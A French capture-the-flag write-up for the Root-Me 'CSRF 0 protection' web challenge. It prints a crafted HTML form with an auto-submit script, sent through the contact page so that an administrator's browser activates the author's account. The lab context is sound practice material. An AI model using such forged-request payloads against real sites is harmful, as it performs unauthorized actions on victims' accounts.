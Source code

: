 ## CSFR 0 protection

On cherche à activer notre compte pour activer l'espace privé de l'intranet. Une fois sur la page d'acceuil on se register puis on se login.

![rootme1](https://user-images.githubusercontent.com/81105172/168243766-b06a27cd-ebb5-4d5b-a0aa-4c46f370cfd7.PNG)

une fois cette étape passée nous gagnons l'accès à de nouvelles pages, la page contact :

![rootme2](https://user-images.githubusercontent.com/81105172/168244176-8e8305f7-6fbd-4133-861e-8e211b5f1e9c.PNG)

et la page profile:

![rootme3](https://user-images.githubusercontent.com/81105172/168244236-b5e4105d-4e69-4b7c-bc7e-fbf64920217b.PNG)

en observant le code source de la page profile, on observe que celle-ci correspond à un forms permettant de post des informations à l'intranet, hors nous ne pouvons pas checkez la case de status nous même ni submit le forms. 
On vas alors envoyer le forms directement par message et ce via l'onglet contact. On vas retoucher légèrement le code du forms, mettant l'url complet et en ajoutant l'argument "checked" au chackbox et nous allons rajoutant un element script pour l'appeler.
on as donc le code ci-dessous :

* <form id="form" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
* 	<input type="text" name="username" value="zeobuilder10">
* 	<input type="checkbox" name="status" checked >
* 	<button type="submit">Submit</button>
* </form>
* <script>document.getElementById("form").submit()</script>

soit :

![rootme4](https://user-images.githubusercontent.com/81105172/168245319-5246781b-3a23-49e7-8106-cd7e75c7b8c6.PNG)

On appuie alors sur submit et c'est gagnée, il suffit d'aller dans l'onglet Private pour récupérer le code et compléter l'exercice.

![rootme5](https://user-images.githubusercontent.com/81105172/168245509-c41d9ebc-d1e9-4aa6-867a-99297265c611.PNG)
